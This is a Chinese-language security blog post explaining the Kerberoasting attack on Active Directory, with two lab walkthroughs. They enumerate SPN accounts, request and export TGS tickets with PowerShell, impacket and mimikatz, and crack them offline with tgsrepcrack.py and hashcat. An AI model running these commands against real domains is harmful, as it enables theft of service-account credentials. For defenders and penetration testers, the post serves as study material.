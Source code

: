```yaml
---
title: Kerberoasting
date: 2020-12-31 23:59:56 +0800
categories: [域安全, TA0006凭据访问]
tags: [Kerberoasting, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## Kerberoasting

### **SPN(Service Principal Name)**

SPN，即Service Principal Name，客户端通过Kerberos请求使用某种服务时，会在请求中附带上需要访问的服务的SPN名称，如文件共享服务cifs/DNS_DOMAIN_NAME，目录访问服务ldap/DNS_DOMAIN_NAME。KDC（密钥分发中心）将通过SPN来确定客户端请求访问的是主机上的哪个具体服务，因为一个主机上通常情况下同时提供多种支持Kerberos认证的服务，随后，KDC将使用该服务账号的密码哈希来对票据进行加密。

![img](/assets/img/clipboard-1599141528915.png)

一般格式长这样:

```
service_class/hostname_or_FQDN
service_class/hostname_or_FQDN:port
service_class/hostname_or_FQDN:port/arbitrary_name
```

SPN不会重复，指定重名的SPN会报错。

![image-20201207205515318](/assets/img/image-20201207205515318.png)



### Kerberoasting原理

只要有合法的TGT，指定SPN就可以申请TGS Ticket；Ticket被service account Hash加密，如果能暴力破解解密成功，则能获得service account的明文密码。一般情况下，服务都是运行在computer account (MACHINENAME$)下，密码都是随机、复杂的，很难暴力破解；如果有一个服务(如MSSQLSvc)是在user account下运行，其密码是人指定的，暴力破解的难度就降低了。

可以查找带有SPN值的账户，也可以在取得了SPN的修改权限后、手动添加一个SPN；最后经过破解后获得明文口令。Kerberoasting攻击步骤如下：

1. **Scan Active Directory for user accounts with SPN values set.** 
2. **Request service tickets from AD using SPN values**
3. **Extract service tickets to memory and save to a file**
4. ***Brute force attack those passwords offline until cracked***



### Kerberoasting利用一

参考：[EXTRACTING SERVICE ACCOUNT PASSWORDS WITH KERBEROASTING](https://stealthbits.com/blog/extracting-service-account-passwords-with-kerberoasting/)



**Step 0: 为域管账户设置一个SPN，用于后续演示**

```
setspn.exe -U -S VNC2/ringdc-pc.ring2.com Administrator
```

**Step 1:  查找带有SPN的user account**

powershell

```
#Build LDAP Filter to look for users with SPN values registered for current domain
$ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
#Execute Search
$results = $search.FindAll()
#Display SPN values from the returned objects
foreach ($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-Host "User Name = " $userEntry.name
    foreach ($SPN in $userEntry.servicePrincipalName)
    {
        Write-Host "SPN = " $SPN       
    }
    Write-Host ""    
}
```



impacket/GetUserSPNs.py

```
GetUserSPNs.py -target-domain ring2.com ring2/win10:Test1234
```



[kerberoast](https://github.com/nidem/kerberoast)/GetUserSPNs.ps1

```
.\GetUserSPNs.ps1
```



可以查找AdminCount=1的user account，表示这是一个受保护账户，因此几乎总是具有高度特权；显然，破解这样的账户更有价值。

```
//Active Directory模块
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon,serviceprincipalname,memberof

//PowerSploit
Get-NetUser -spn -AdminCount | Select name,whencreated,pwdlastset,lastlogon,serviceprincipalname,memberof
```

![image-20201207203829072](/assets/img/image-20201207203829072.png)

**Step 2: TGS请求**

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'VNC2/ringdc-pc.ring2.com'
```



**Step 3: 导出TGS Ticket**

```
mimikatz # kerberos::list /export
```

![image-20201207201238744](/assets/img/image-20201207201238744.png)



**Step 4: 暴力破解TGS Ticket中的用户密码**

```
// https://github.com/nidem/kerberoast
python tgsrepcrack.py pass.txt "..\1-40a10000-win10@VNC~ringdc-pc.ring2.com-RING2.COM.kirbi"
```

![image-20201207201015488](/assets/img/image-20201207201015488.png)



**Step 5: 清除SPN**

```
setspn.exe -D VNC2/ringdc-pc.ring2.com Administrator
```



### Kerberoasting利用二

[Kerberoasting Without Mimikatz](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)

将前3步整合到一起，直接输出John Ripper或hashcat格式数据，用于第四步暴力破解

```
// PowerSploit/Invoke-Kerberoast
Invoke-Kerberoast  -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

```
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```

![image-20201207212655337](/assets/img/image-20201207212655337.png)

